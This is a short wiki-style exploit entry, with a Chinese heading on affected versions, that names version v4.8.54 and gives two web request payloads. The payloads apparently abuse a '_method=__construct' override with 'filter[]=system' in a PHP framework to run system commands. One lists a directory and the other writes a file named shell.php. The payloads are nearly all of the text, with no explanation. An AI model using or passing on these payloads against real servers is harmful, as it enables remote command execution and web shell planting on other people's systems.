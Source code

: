 <languages /> <translate>

漏洞影響
--------

</translate> v4.8.54

Payload
-------

    s=dir&_method=__construct&method=*&filter[]=system

    s=echo "shell" >shell.php&filter[]=system&method=*&_method=__construct